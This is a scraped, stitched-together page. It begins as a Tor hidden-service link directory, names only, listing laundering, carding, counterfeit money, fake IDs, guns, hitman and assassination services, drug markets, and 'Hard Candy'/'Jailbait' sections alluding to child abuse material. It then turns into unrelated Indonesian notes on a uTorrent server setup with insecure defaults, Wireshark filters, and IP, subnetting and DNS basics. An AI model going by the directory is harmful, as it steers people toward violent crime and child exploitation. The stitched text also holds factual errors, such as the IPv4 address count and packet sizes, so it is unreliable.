- OnionWallet – Anonymous Bitcoin Wallet and Bitcoin Laundry
- Western Union Exploit
- ccPal Store
- HQER – High Quality Euro Replicas
- Counterfeit USD
- PayPal to BitCoins
- Double Your BitCoins
- High Quality Tutorials
Marketplace Commercial Services :
- Tor Market Board – Anonymous Marketplace Forums
- Project Evil
- Discounted electronics goods
- Unfriendlysolution – Legit hitman service
- Tor Girls
- UK Guns and Ammo
- Used Tor Guns
- Amazon Business
- Tor Technology
- Hidden BetCoin
- CStore Carded Store
- Apples 4 Bitcoin
- Carded Store
- Data-Bay
- Hackintosh
- EuroArms
- Advantage Products
- Hitman Network
- Marianic Technology Services
- Mobile Store
- MSR Shop
- Old Man Fixer’s Fixing Services
- PC Shop
- Samsung StorE
- Sheep Marketplace
- Tor BetCoin
- Tor Web Developer
- UK Passports
- US Fake ID Store
- USA Citizenship
- iLike Help Guy
- Network Consulting and Software Development
- Quick Solution (Hitman)
- Tyner MSR Store
Marketplace Drugs :
- EuCanna – Medical Grade Cannabis Buds, Rick Simpson Oil, Ointments and Creams
- Peoples Drug Store – The Darkweb’s Best Online Drug Supplier!
- Smokeables – Finest Organic Cannabis shipped from the USA
- CannabisUK – UK Wholesale Cannabis Supplier
- DeDope – German Weed and Hash shop. (Bitcoin)
- BitPharma – EU vendor for cocaine, speed, mdma, psychedelics and subscriptions
- Brainmagic – Best psychedelics on the darknet
- NLGrowers – Coffee Shop grade Cannabis from the netherlands
- Black Market Reloaded Forums
- Atlantis Marketplace Forums
- Atlantis Marketplace
- Silk Road Forums
- Drug Market
- Kamagra for BitCoins
- Silk Road Marketplace
- Black Market Reloaded
Hosting :
- Image Uploader
- PasteThis – Tor based Pastebin
- Gittor
- Free hosting
- Liberty’s Hackers Hosting Service
- Matrix Trilogy
Blogs :
- Beneath VT – Exploring Virginia Tech’s Steam Tunnels and Beyond
- Deep Web Radio
- Encyclopedia Dramatica
- Hushbox
- Dark Like My Soul
- FreeFor
- Scientology Archive
- All the latest news for tor
- Michael Blizek
- AYPSELA News
- Blog about Stories
- Mike Tigas
- Sam Whited
- An Open Letter to Revolutionaries
- Totse 2
- Lucky Eddie’s Home
- Fravia’s Web Searching Lore
- OnionNews – Blog about the onionland
Forums and Chans :
- Onion Forum 2.0 renewed
- Onii-Chan
- Jisko
- Twitter clone
- HackBB – Hacking & cracking forum
- http://xdagknwjc7aaytzh.onion/20/
- Read only access to the Freenet FMS forums via the Anonet Webproxy
- SciBay Forums
- DeepWeb
- StaTorsNet
- The BEST tor social network! File sharing, messaging and much more. Use a fake email to register.
- OnionForum 3.0 – New Onionforum for general talk, now with marketplace
- TorChan – One of the oldest chans on Tor
Email and Messaging :
- swiss email
- Anonymous E-mail sevice. You can only communicate with other users currently using this service. So tell all your friends about it!
- SMS4TOR – Self destructing messages
- NoteBin – Create encrypted self-destructing notes
- [TorBox] The Tor Mail Box
- Blue matrix chat NOT UP ALL THE TIME so chek often to see when it is
- Autistici/Inventati
- Hell Online
Political :
- Bugged Planet
- Fairie Underground
- Kavkaz Center
- The New Yorker Strongbox
- Example rendezvous points page
- The Intel Exchange Forum :: Information and discussion on various topics, ranging from Illegal Activities and Alternative Energy, to Conspiracy Theories and Hacking. Same people from SnapBBS on a fully secure, moderated and categorized forum.
- A7B blog :: a blog dedicated to the restoration of a limited constitutional republic in the USA
- Anonymous, safe, secure, crowdfunded assassinations.
- Commo Sense by Thomas Paine
- Destination Unknown
- Wiki Leaks
Hacking :
Warez :
- The Nowhere Server (restored from backup after FH)
- The Pirate Bay – Torrents
- Tor Library – library of books and other media files
- The Pirate Bay – Torrents (official .onion)
- DOXBIN
- Music Downloads
- Lolicore and Speedcore Music
- ebooks
- lol 20th Century Western Music Recordings and Scores
- Pony at Noisebridge
- Imperial Library of Trantor
- Jotunbane’s Reading Club
Unknown :
- SharePass – Password sharing community
- Girls Released – Some nice model pics
- Gallery – Met-Art, FTVX etc sets
- The Pink Meth (mirror)
- Klixen
- EroDir – Lots and lots of Hentai
- VOR-COM
Erotic Hard Candy
Hard candy links no longer working and removed. Erotic Jailbait
Non-English
Torrent
secara umum ada 2 cara download, biasa & torrent
- download biasa : download langsung dari server pusat
- download torrent : sharing antar downloader, bisa download particular package
extensi .torrent
penggunaan :
- bisa pakai desktop -> utorrent web, transmission
- bisa pakai server -> utorrent web
install utorrent ubuntu server :
download file :
64 bits
cd /usr/local/src
wget http://download-hr.utorrent.com/track/beta/endpoint/utserver/os/linux-x64-ubuntu-13-04 -O utserver.tar.gz
32 bits
cd /usr/local/src
wget http://download-hr.utorrent.com/track/beta/endpoint/utserver/os/linux-i386-ubuntu-13-04 -O utserver.tar.gz
install :
sudo su
cd /usr/local/src
sudo tar xvf utserver.tar.gz -C /opt/
cd /usr/local/src
sudo apt install libssl-dev
wget http://archive.ubuntu.com/ubuntu/pool/main/o/openssl1.0/libssl1.0.0_1.0.2n-1ubuntu5.5_amd64.deb
sudo apt install ./libssl1.0.0_1.0.2n-1ubuntu5.5_amd64.deb
sudo ln -s /opt/utorrent-server-alpha-v3_3/utserver /usr/bin/utserver
run :
utserver -settingspath /opt/utorrent-server-alpha-v3_3/ -daemon
*uTorrent akan listen pada 0.0.0.0:8080, -daemon akan menjalankan uTorrent di background.
akses web :
http://ip-torrent-server:8080/gui
http://192.168.0.7:8080/gui
username admin
password "dikosongkan" (tanpa password)
konfigurasi :
Klik Settings (roda gigi)
Directories
Location of Downloaded Files
Put new downloads in: /home/share/bittorent/_actives
Move completed downloads to: /home/share/bittorent
Location of .torrents
Store .torrents in: /home/share/bittorent/_torrents
Move .torrents for finished jobs to: /home/share/bittorent/_torrents
Automatically load .torrents from: /home/share/bittorent/_torrents
Web UI
Authentication
username admin
password 123456789
Connectivity 9090
Buat folder di shell
mkdir -p /home/share/bittorent/_torrents
mkdir -p /home/share/bittorent/_actives
chmod -Rf 777 /home/share
chown -Rf nobody: /home/share
mencari file torrent :
search -> torrent search engine
- https://snowfl.com/
- http://veoble.com/torrent/
- https://torrents.io/
- https://solidtorrents.net/
- https://torrentseeker.com/
- https://torrent-paradise.ml/
- https://www.torrentzeta.com/
- https://btdig.com/
- https://www.aiosearch.com/
- https://www.xtorx.com/
- http://www.toorgle.com/
- https://www.torrentdownload.info/
- https://bitcq.com/
- https://academictorrents.com/
- https://thepiratebay10.org/
- https://tpb.party/
- https://rarbg.to/index70.php
- https://1337x.to/
- https://www.torlock.com/movies/1/size/desc.html
- https://torrentz2eu.org/
- http://www.yts.am/
- https://eztv.re/
- https://zooqle.com/
- https://torrentdownloads.mrunblock.xyz/
- https://www.limetorrents.info/
sebelum download, ganti IP dulu
(dapat dipelajari dari play list stay anonymous)
Jaringan Komputer
Wireshark
sumber https://lms.onnocenter.or.id/wiki/index.php/Wireshark
- Filter TCP/IP Packet
- Capture SQL Traffic
Filter TCP/IP Packet
Port Filter
Mem-filter packet kita perlu menset beberapa parameter. Misalnya, kita ingin menampilkan hanya traffic ke port 8080,
tcp.port == 8080
Misalnya, kita ingin melihat hanya packet yang menuju port 8080,
tcp.destport = 8080
Atau di balik, kita ingin melihat data dari server yang bekerja pada port 8080,
tcp.srcport = 8080
Bisa kita buat misalnya,
tcp.port == 8080
yang artinya sama dengan
tcp.srcport == 8080 || tcp.dstport == 8080
IP address Filter
Jika kita ingin menangkap hanya packet yang dikirim dari IP tertentu saja,
ip.src == 80.80.80.80
Atau IP address tujuan tertentu saja,
ip.dst == 80.80.80.80
atau jika kita tidak peduli arah yag dituju,
ip.addr == 80.80.80.80
Filter Data Tertentu
Biasanya ada banyak paket yang dikirim. Agar hanya packet yang berisi data saja yang di tampilkan, kita dapat mem-filter,
tcp.len > 0
Atau jika kita ingin hanya menampilkan data yang berisi byte tertentu,
data[0] == A0
Atau jika kita ingin menampilkan hanya data pada selang waktu tertentu saja,
frame.time >= 'Feb 1, 2011 11:00:00' && frame.time < 'Feb 1, 2011 11:05:00'
Kombinasi Filter
Kita bisa mengkombinasikan berbagai filter tersebut dengan tanda &&, misalnya,
tcp.destport == 8080 &&
frame.time >= 'Feb 1, 2011 11:00:00' &&
frame.time < 'Feb 1, 2011 11:05:00' &&
ip.src == 80.80.80.80 &&
tcp.len > 0 &&
data[0] == A0
Kita dapat mengeksport data tersebut untuk di analisa lebih lanjut.
Capture SQL Traffic
Kadang kala kita perlu menangkap komunikasi antara server Web dengan database server. Melalui wireshark kita data memfilter
Capture Options (ctrl-K).
Untuk mem-filter komunikasi ke SQL server, kita butuh informasi
host <sql-server-ip>
port <sql-server-port>
Filter yang diberikan dapat menggunakan format,
ip.addr == <sql-server-ip> && tcp.port == <sql-server-port>
Biasanya SQL Server port adalah 1433
next...
Link Layer
Lapisan Link biasanya di implementasikan di dalam firmware di LAN card, akan menentukan bagaimana frame data dikirim. Termasuk bagaimana pemotongan / fragmentasi paket di kabel dengan Maximum Transmission Unit (MTU) yang lebih kecil, atau menggabungkan beberapa potongan (fragmen) frame menjadi sebuah frame dengan MTU yang lebih besar. Lapisan link juga menentukan komputer mana yang harus menerima frame di jaringan LAN untuk meneruskan frame ke tujuan yang benar.
Lapisan link akan memberikan enkapsulasi datagram dari lapisan network ke dalam frame yang akan di kirim melalui jaringan. Dalam frame akan dimasuk alamat Ethernet, atau MAC address, dari komputer sumber dan komputer selanjutnya (next hop) untuk mencapai tujuan. Alamat-alamat ini akan ditulis ulang untuk setiap hop yang dilewati.
Maximum Transmission Unit disingkat MTU adalah istilah bahasa Inggris dalam teknologi informasi yang merujuk kepada ukuran paket data terbesar yang dapat ditransmisikan melalui sebuah media jaringan. Ukuran MTU adalah bervariasi, tergantung teknologi jaringan yang digunakan. Contohnya adalah dalam jaringan berbasis teknologi Ethernet, ukuran MTU maksimum adalah 1500 bita. Adalah tugas lapisan data-link yang harus menentukan ukuran MTU. Ketika paket-paket ditransmisikan melalui jaringan, Path MTU (PMTU), merepresentasikan ukuran paket terkecil di antara semua jaringan yang terlibat dalam jaringan yang sama.
Lebih detail data link layer
Data dikirim dengan 2 metode :
- Sinkron
- Asinkron

Sinkron
Dalam bahasa sederhana, komunikasi data sinkron adalah pengiriman data yang dilakukan secara terus menerus tanpa henti sampai satu frame selesai dikirim.
Asinkron
Lawan-nya adalah komunikasi asinkron, dimana data dikirim terputus-putus tidak dalam satu kesatuan, dan tidak tentu waktu pengirimannya. Oleh karena-nya dalam komunikasi asinkron dibutuhkan tanda start dan stop untuk mengetahui bahwa ada data yang dikirim. Komunikasi asinkron sering di sebut komunikasi start-stop.
Ethernet
- Fast Ethernet vs Gigabit Ethernet
- Straight-Throught Cable vs Crossover Cable
- Cisco Packet Tracer Wiring
Fast Ethernet vs Gigabit Ethernet
source : http://www.fiber-optic-solutions.com/fast-ethernet-vs-gigabit-ethernet.html
Fast Ethernet (FE) is a term of Ethernet in computing networking, which stands for carrying on the traffic at the speed of 100 Mbps. It came into the market in 1995 with the IEEE 802.3u standard and the original version was at the rate of 10 Mbps. Fast Ethernet makes use of 100BASE-T, 10BASE-T, 100BASE-TX and so on. 100BASE-T is the most common Fast Ethernet, whose cable’s segment length is limited to 100m. 100BASE-TX is the predominant form of Fast Ethernet, and each network segment can have a maximum cabling distance of 100m. Besides, Fast Ethernet has different features such as several PHY layers, and both full duplex and half duplex modes are supported by it.
Another type of Ethernet offers 1000Mbps in computing networking, therefore, got the name gigabit.
Gigabit Ethernet (GE) was released only a few years after Fast Ethernet coming about, but was not widely used until the internet demands increased around 2010. It uses a frame format of 803.2 and also runs on half duplex and full duplex modes. The maximum length of this system can be up to 70km, therefore most universities and companies use it. GE has different versions such as 1, 10, 40 and 100 gigabits. There are several typical varieties of Gigabit Ethernet, for example, 1000BASE-CX is an initial standard for Gigabit Ethernet connections with maximum distances of 25m, 1000BASE-KX is part of the IEEE 802.3ap standard for Ethernet operation over Electrical Backplanes and its specified distance is 1m, 1000BASE-SX is an optical fiber Gigabit Ethernet standard for operation over multi-mode fiber using a 770 to 860 nanometer, near infrared (NIR) light wavelength.
- The simplest difference between Fast Ethernet vs Gigabit Ethernet is their speed. Fast Ethernet runs at the maximum speed of 100 Mbps and Gigabit Ethernet offers up to 1 Gbps speed which is 10 times faster than Fast Ethernet.
- Round-trip delay of Fast Ethernet is 100-500 bit times. As against, Gigabit Ethernet has the delay of 4000-bit times.
- Configuration problems in Gigabit Ethernet are more complicated than Fast Ethernet. Sometimes Gigabit Ethernet needs high-compatibility fiber switch to work with, for instance, 10gbe switch.
- The distance covered by Fast Ethernet is at most 10 km. However, the Gigabit Ethernet has the limit of 70 km.
- Gigabit Ethernet is more expensive than Fast Ethernet. Upgrading of Fast Ethernet from Standard Ethernet is easy and cost-effective while upgrading of Gigabit Ethernet from Fast Ethernet is complex and expensive.
- Gigabit Ethernet requires specifically designed network devices that can support the standard 1000Mbps data rate like Gigabit Ethernet switch. Fast Ethernet requires no specific network devices.
Straight-Throught Cable vs Crossover Cable

Cisco Packet Tracer Wiring
Straight-Throught & Crossover Cable :


Cisco Console Cable :
Coaxial Cable :
DTE & DCE :

Cisco Fiber Cable :

Octal Cable :
Phone Cable :
Switch & Hub
-
Kecepatan Transfer Data
Switch memiliki kecepatan transfer data lebih baik dibandingkan dengan hub. Sehingga sekarang ini banyak yang membuat jaringan menggunakan switch. Switch mampu melakukan prioritas transmisi data dari mac address yang akan dituju, sehingga mampu mentransmisikan paket data lebih cepat daripada hub yang hanya menyebarkan paket data keseluruh komputer yang terhubung jaringannya. -
Harga Switch dan Hub
Dari segi ekonomi, harga hub lebih murah dibandingkan dengan harga switch dikarenakan kelebihan fungsi dan keamanan yang ditawarkan switch. -
Sistem Transmisi
Switch mentransmisikan paket data sesuai request dari komputer yang membutuhkan paket data tersebut, sedangkan hub mentransmisikan paket data yang masuk ke seluruh komputer yang terhubung dengan jaringannya. -
Segi Keamanan
Dari segi keamanan, hub memiliki tingkat keamanan lebih rendah daripada switch. Switch memakai sistem seleksi terhadap komputer yang terhubung dengannya berupa MAC address, hal ini memungkinkan jika ada MAC address yang dapat menimbulkan masalah pada jaringan dapat di blok saja. -
Setting Jaringan (Manageable)
Hub tidak bisa melakukan setting perangkat yang terhubung ke jaringan, sedangkan switch bisa di-setting melakukan blokir terhadap komputer/mac address yang dirasa mengganggu transmisi data. Switch sendiri jika dipakai pada jaringan yang kecil seperti dirumah, tidak perlu melakukan setting yang ribet, hanya perlu colok kabel LAN langsung ke switch. Untuk jaringan yang lebih besar seperti di kantor atau warnet memerlukan managed switch yang biasanya disetting dengan membuat virtual LAN atau VLAN untuk setting kecepatan port, host, filter mac address dll. -
Letak pada Lapisan OSI Layer
Hub bekerja pada lapisan OSI layer pertama yang dinamakan dengan Physical Layer, sedangkan switch melakukan kerjaannya pada lapisan OSI layer kedua yakni Data Link. -
Beban Kinerja pada Jaringan
Dilihat dari sistem kerjanya, hub memiliki beban kerja yang simpel dan tidak rumit, sedangkan switch memiliki beban kerja yang lebih kompleks.
next...
List content :
- Internet Protocol
- Format IP address
- Bentuk biner
- Bentuk dotted decimal
- IP address dan artinya
- IP Address, Subnetmask dan Subnetting
- Dunia Menurut RFC 950 – Cara Lama
- Pengalokasian IP address
- Aturan dasar pemilihan network ID dan host ID
- Contoh konfigurasi Valid dan Tidak Valid
- Konfigurasi Network Interface
- Mendefinisikan interface
- Menyalakan dan mematikan interface
- Dunia Menurut RFC 1812 – Cara Baru
- Subnetting, Bit By Bit
- Aritmatika Biner
- Logika Boolean dan Operasi Biner “AND”
- Subnet “Mask”
- Notasi “Slash”
- Trik Menghitung Subnet
- Trik Mengetahui Range Address di Jaringan
- Penghematan IP address NAT dan PAT
- Alokasi IP Addess Secara Dinamis
- Cara Beroperasi DHCP
- Membangun DHCP Server di Linux
Internet Protocol
- Version : berisi versi Internet Protocol (IP) (4 bit). Versi yang sering digunakan pada hari ini adalah IP versi 4, maka kolom ini akan berisi 0100. Sebetulnya, ada banyak versi IP dan ini di terangkan di IANA List of IP Version Numbers. (http://www.iana.org/assignments/version-numbers). Perkembangan lebih lanjut akan menggunakan IP versi 6 (IPv6).
- Internet Header Length (IHL) : Mengindikasikan panjang dari datagram header dalam 32 bit (4 oktet) word. Panjang minimum header adalah 20 oktet, oleh karena itu kolom ini akan mempunyai nilai minimum 5 (0101). Karena nilai maksimum dari kolom ini adalah 15, maka IP header tidak mungkin lebih panjang dari 60 oktet.
- Type of Service (TOS) : memungkinkan bagi host pengirim paket untuk meminta perbedaan kelas dalam mengirimkan paket. Walaupun tidak sepenuhnya di dukung oleh IPv4 yang banyak digunakan hari ini. Kolom TOS memungkinkan host pengirim meminta servis berbeda di lapisan transport / lapisan internet, dan dapat menspesifikasikan prioritas (0-7), atau dapat meminta route yang di optimisasi berdasarkan biaya, delay, throughput, atau keandalan.
- Total Length : mengindikasikan panjang (dalam byte, atau oktet) dari keseluruhan paket, termasuk header dan data.Karena keterbetasan panjang kolom ini, maka panjang maksimum IP paket adalah 64KB, atau 64,535 byte. Pada praktisnya panjang paket di batasi oleh maximum transmission unit (MTU).
- Identification : digunakan jika sebuah paket dipotong-potong menjadi potongan yang lebih kecil pada saat dikirim pada salah satu subnetwork yang dilewati. Dengan identifikasi ini, potongan-potongan paket yang diterima router tujuan dapat mengassembling kembali menjadi sebuah paket utuh kembali.
- Flags : juga digunakan pada proses pemotongan / fragmentasi dan reassembly. Bit pertama disebut More Fragments (MF) bit, dan digunakan untuk memberi tanda pada potongan akhir dari paket sehingga bagian penerima tahu bahwa potongan paket yang diterima dapat di reassimbly. Bit kedua disebut Don't Fragment (DF) bit, yang akan meniadakan proses pemotongan paket. Bit ke tiga tidak digunakan dan selalu di set ke 0.
- Fragment Offset : menunjukan posisi potongan dari paket yang awal. Potongan pertama dari sebuah paket, akan bersisi offset yang sama dengan 0.Potongan selanjutnya akan ditunjukan oleh offset dengan kenaikan 8 byte.
- Time-to-Live (TTL) : mempunyai nilai antara 0 sampai 255 (8 bit). TTL menunjukan berapa hop / router yang di ijinkan untuk dilewati oleh paket sebelum paket tersebut akan dibuang dari jaringan. Setiap router yang dilewati akan mengurangi nilai TTL satu (1) buah, jika nilai TTL mencapai 0 maka paket akan automatis dibuang dan router terakhir akan mengirimkan paket ICMP time excedeed. Hal ini dilakukan untuk mencegah paket IP terus menerus berada didalam network.
- Protocol : menunjukan protokol yang dibawa diatas Internet Protocol, pilihan yang ada termasuk ICMP (1), TCP (6), UDP (17), atau OSPF (89). Daftar lengkap nomor protocol ini dapat dilihat di IANA list of Protocol Numbers (http://www.iana.org/assignments/protocol-numbers) Daftar ini juga dapat dilihat di file protocol yang biasanya ada di /etc (Linux/Unix), c:\windows (Windows 9x, ME, XP), atau c:\winnt\system32\drivers\etc (Windows NT, 2000).
- Header Checksum : berisi informasi yang menjamin agar header IP bebas dari error (16 bit). Perhatikan bahwa IP memberikan servis yang tidak reliable, oleh karena ini kolom ini hanya mencek header saja, bukan keseluruhan paket.
- Source Address : IP address dari host pengirim paket (32 bit)
- Destination Address : IP address dari host yang dituju oleh paket (32 bit)
- Options : option yang dapat diberikan ke sebuah paket yang dikirim, seperti routing yang
khusus, atau keamanan. Daftar option dapat sampai dengan 40 byte (10 word), dan akan diisi
untuk memenuhi batas word. Daftar IP option dapat diperoleh dari IANA list of IP Option
Numbers (http://www.iana.org/assignments/ip-parameters). Beberapa contoh options adalah:
- Strict Source Route. Berisi daftar lengkap IP address dari router yang harus dilalui oleh paket ini dalam perjalanannya ke host tujuan. Selain itu paket balasan atas paket ini,yang mengalir dari host tujuan ke host pengirim, diharuskan melalui router yang sama.
- Loose Source Route. Dengan mengeset option ini, paket yang dikirim diharuskan singgah di beberapa router seperti yang disebutkan dalam field option ini. Jika diantara kedua router yang disebutkan terdapat router lain, paket masih diperbolehkan melalui router tersebut.

Format Internet Prototol (IP) header tampak pada gambar. Format dari diagram konsisten dengan RFC, bit berurut dari kiri-ke-kanan dimulai dari nol. Setiap baris merepresentasikan sebuah word 32-bit. Perlu diperhatikan bahwa header IP akan paling tidak panjangnya 5 word (20 byte). Kolom di header, dan fungsinya adalah sebagai berikut:
IP address dan artinya
-
Jika dilihat dari bentuknya, IP address terdiri dari 4 buah bilangan biner 8 bit. Nilai terbesar dari bilangan biner 8 bit ialah 255 (= 2^7 + 2^6 + 2^5 + 2^4 + 2^3 + 2^2 + 2^1 + 2^0). Karena IP address terdiri dari 4 buah bilangan 8 bit, maka jumlah IP address yang tersedia ialah 255 x 255 x 255 x 255. IP address sebanyak ini harus dibagi bagikan ke seluruh pengguna jaringan internet di seluruh dunia.
Untuk mempermudah proses pembagiannya, IP address dikelompokkan dalam kelas kelas. Dasar pertimbangan pembagian IP address ke dalam kelas-kelas adalah untuk memudahkan pendistibusian pendaftaran IP address. Dengan memberikan beberapa blok IP address kepada ISP (Internet Service Provider) di suatu area diasumsikan penanganan komunitas lokal tersebut akan lebih baik, dibandingkan dengan jika setiap pemakai individual harus meminta IP address ke otoritas pusat, yaitu Internet Assigned Numbers Authority (IANA).
IP Address, Subnetmask dan Subnetting
-
Sebetulnya ada dua (2) aturan teknik subnetting di jaringan TCP/IP. Aturan yang awal adalah RFC 950, aturan yang baru dapat dilihat di RFC 1812.
Dunia Menurut RFC 950 – Cara Lama
Untuk IPv4, panjang total sebuah IP address adalah 32 bit. Hal ini tidak berlaku di IPv6 yang mempunyai address space lebih panjang lagi. Biasanya IP address ditulis dalam kumpulan empat (4) nomor merepresentasikan nilai desimal dari address byte (8 bit). Setiap nilai di pisahkan dengan titik, notasi ini dikenal sebagai dotted decimal (desimal bertitik). Contoh IP address adalah 202.159.123.23.IP address sebetulnya mempunyai hirarki untuk keperluan routing, dan biasanya dibagi menjadi dua sub-kolom. Network Identifier (NET_ID) memberitahukan TCP/IP subnet yang tersambung ke Internet. NET_ID digunakan untuk routing antar jaringan, dalam dunia telepon kira-kira sama seperti kode negara, kode wilayah, kode kota, kode operator dari nomor pesawat telepon yang kita gunakan. Host Identifier (HOST_ID) menentukan host tertentu di dalam subnetwork; dalam dunia telepon kira-kira sama dengan nomor pesawat telepon.
Untuk memudahkan membayangkan konsep IP address, mari kita lihat persamaan konsep IP address dengan nomor telepon. Contoh, sebuah nomor telepon Jakarta 021 421-4567. NET_ID untuk telepon di Jakarta adalah 021, sedang HOST_ID atau pesawat teleponnya 421-4567. Tentunya jaringan telepon di Jakarta lumayan rumit dengan di layani dengan beberapa sentral telepon, khusus untuk pesawat 421-xxxx sebetulnya dilayani sentral telepon Cempaka Putih. Jadi sebetulnya kita dapat pecah lagi menjadi NET_ID 021, SUBNET_ID 421 dan HOST 4567. Dengan cara ini akan memudahkan bagi operator telepon untuk melakukan routing sambungan telepon antar sentral telepon. Setiap sentral telepon cukup mencocokan NET_ID atau SUBNET_ID saja untuk mencapai pesawat telepon yang di tuju. Dengan cara / konsep yang sama IP address bekerja.

Pengalokasian IP address
Contoh konfigurasi Valid dan Tidak Valid
Konfigurasi Network Interface
Mendefinisikan interface
Menyalakan dan mematikan interface
Dunia Menurut RFC 1812 – Cara Baru
Subnetting, Bit By Bit
Aritmatika Biner
-
Seperti kita ketahui bahwa komputer merepresentasikan semua angka sebagai “bit”, atau “nol dan satu”. Komputer bekerja dengan group delapan bit (0 atau 1) yang biasa di sebut “byte”. Kebanyakan desktop PC akan memproses bilangan empat (4) byte, atau 32 bit, dalam satu saat. Oleh karena itu prosesor 80386 sampai Pentium IV di kenal sebagai prosesor 32 bit. Mari kita ingat kembali waktu guru kita di Sekolah Dasar menjelaskan tentang sistem penomoran desimal. Di sebut desimal (asal kata Latin – decima – yang berarti sepuluh bagian), karena menggunakan angka dari nol hingga sembilan. Jika kita membutuhkan angka yang besar maka kita harus menambahkan tambahan digit. Kemudian di kenalkan konsep satuan, puluhan, ratusan, ribuan dsb.
Sebagai contoh, 45678 mempunyai :
4 Puluhan ribu
5 Ribuan
6 Ratusan
7 Puluhan
8 SatuanKarena komputer hanya bekerja dengan bilangan biner, dan hanya mempunyai “0” dan “1” untuk bekerja, mereka harus menambahkan digit baru jika mereka melebihi nomor satu. Dalam bilangan desimal, kita mengenal pangkat dari sepuluh, yaitu:
10^0=1,
10^1=10,
10^2=100,
10^3=1000, dst.Dalam bilangan biner, kita mengenal pangkat dari dua, yaitu:
2^0=1 (1 biner),
2^1=2 (10 biner),
2^2=4 (100 biner),
2^3=8 (1000 biner),
2^4=16 (10000 biner),
2^5=32 (100000 biner),
2^6=64 (1000000 biner),
2^7=128 (10000000 biner),
2^8=256 (100000000 biner), dst. Oleh karenanya bilangan 45678 desimal, dalam bilangan biner akan di representasikan sebagai berikut.
32768 | 16384 | 8192 | 4096 | 2048 | 1024 | 512 | 256 | 128 | 64 | 32 | 16 | 8 | 4 | 2 | 1
1 | 0 | 1 | 1 | 0 | 0 | 1 | 0 | 0 | 1 | 1 | 0 | 1 | 1 | 1 | 0Atau dalam bentuk bilangan biner adalah 1011001001101110 yang merupakan jumlah dari 32768 plus 8192 plus 4096 plus 512 plus 64 plus 32 plus 8 plus 4 plus 2 sama dengan 45678. Menghitung sampai dua puluh dalam biner adalah sebagai berikut :
Decimal Binary Decimal Binary
1 1 11 1011
2 10 12 1100
3 11 13 1101
4 100 14 1110
5 101 15 1111
6 110 16 10000
7 111 17 10001
8 1000 18 10010
9 1001 19 10011
10 1010 20 10100IP address versi 4 adalah empat (4) byte, masing-masing delapan (8) bit, di representasikan dengan angka desimal dengan titik diantaranya. Contoh:
10.5.72.230di representasikan dalam angka biner 32-bit sebagai
00001010.00000101.01001000.11100110.Bayangkan, 232 adalah 4294967296, atau lebih sedikit dari empat milyar alamat yang tersedia untuk digunakan di dunia. Tapi mengapa kita akan kekurangan IP address? Perkiraan terakhir, kita akan kekurangan IP address sekitar tahun 2025. Ternyata masalah utama-nya adalah untuk mengetahui dimana lokasi empat milyar host cukup mustahil dengan menggunakan peralatan yang ada pada hari ini.
Teknik routing yang digunakan terlalu sederhana, dengan membagi IP address menjadi “class”.
Dengan IP address yang byte pertama antara 1-126 termasuk kelas A dengan 16,777,214 (224-2) host.
Kelas A mempunyai 8 bit bagian network (NET_ID), dan 24 bit bagian host (HOST_ID).
IP address dengan byte pertama 128-191 termasuk kelas B dengan 65,534 (216-2) host, dan ada 16,384 network kelas B (dari (192-128)*256). Dengna 16 bit bagian network (NET_ID), dan 16 bit bagian host (HOST_ID).
Network kelas C, mempunyai byte pertama antara 192-223, dengan 24 bit bagian network (NET_ID), dan 8 bit bagian host (HOST_ID).
Semua dapat secara sederhana di tuliskan sebagai berikut:
Kelas Network bit Network Mask Network Mask (biner)
A 8 255.0.0.0 11111111.00000000.00000000.00000000
B 16 255.255.0.0 11111111.11111111.00000000.00000000
C 24 255.255.255.0 11111111.11111111.11111111.00000000
Tentunya tidak ada satu orang network administrator-pun di dunia yang bersedia meng-admin-i 16,777,214 dalam sebuah segmen jaringan. Network admin biasanya akan memotong jaringan mereka dengan melakukan subnetting. Ujungnya adalah di alokasi multiple kelas C untuk memenuhi kebutuhan sebuah jaringan.
Logika Boolean dan Operasi Biner “AND”
Subnet “Mask”
-
Contoh subnetmask yang sering dipakai
CIDR Desimal Jumlah Mesin
/30 255.255.255.252 4
/29 255.255.255.248 8
/28 255.255.255.240 16
/27 255.255.255.224 32
/26 255.255.255.192 64
/25 255.255.255.128 128
/24 255.255.255.0 256
/16 255.255.0.0 65.536
/8 255.0.0.0 16.777.216Notasi “Slash”
Trik Menghitung Subnet
-
Semoga anda semua sekarang memahami filosofi aritmatika biner di balik perhitungan subnetmask. Pada bagian ini, akan di terangkan beberapa trik perhitungan subnet.
Untuk menyederhanakan masalah, ada baiknya kita fokus pada subnet mask yang dimulai dengan “255.255.255”, yang sebetulnya cukup untuk sebuah jaringan yang kecil.
Hanya ada tujuh (7) nilai yang mungkin di oktet terakhir dari subnet mask, yaitu, 0, 192, 128, 224, 240, 248, dan 252.
11111100 : 252
11111000 : 248
11110000 : 240
11100000 : 224
11000000 : 192
10000000 : 128
00000000 : 0Kita juga dapat menentukan ada berapa subnet yang akan di peroleh dari subnetmask tertentu dengan cara membagai 256 dengan jumlah host yang ada di subnet. Contoh subnetmask 255.255.255.224 yang mempunyai 32 host, maka jumlah subnet yang akan di peroleh dari sebuah network kelas C adalah 8 buah (dari 256/32=8).Tentunya, ini semua hanya berlaku jika angka-nya adalah kelipatan dua, seperti, 1, 2, 4, 8, 16, 32, 64, atau 128.
Jika bagian network / network prefix / NET_ID lebih besar dari kelas C. Kita dapat mengetahui berapa banyak network kelas C yang ada, dengan cara mengurangkan byte ke tiga dari subnetmask dengan 256.Contoh subnetmask 255.255.240.0 merupakan kumpulan dari 16 network kelas C (dari 256-240=16).
Trik Mengetahui Range Address di Jaringan
Penghematan IP address NAT dan PAT
Alokasi IP Addess Secara Dinamis
Cara Beroperasi DHCP
Membangun DHCP Server di Linux
DNS dan Pengaturan Internet

Para Pemain Inti
Pengelola dari sistem DNS terdiri dari tiga komponen:
- DNS resolver sebuah program klien yang berjalan di komputer pengguna, yang membuat permintaan DNS dari program aplikasi.
- Recursive DNS server yang melakukan pencarian melalui DNS sebagai tanggapan permintaan dari resolver, dan mengembalikan jawaban kepada para resolver tersebut;
- Authoritative DNS server yang memberikan jawaban terhadap permintaan dari recursor, baik dalam bentuk sebuah jawaban, maupun dalam bentuk delegasi (misalkan: mereferensikan ke authoritative DNS server lainnya)
Bagian Domain

nama.id
nama.co.id
nama.go.id
layanan.nama.go.id
www.nama.go.id
nama.com
nama.gov
- ada kode negara, atau domain tertinggi seperti .id, .com, .gov, dll.
- ada kode jenis organisasi, seperti .go.id, .co.id, .or.id, .mil.id dll.
- ada kode nama organisasi, seperti nama.or.id, nama.co.id, nama.go.id, nama.mil.id
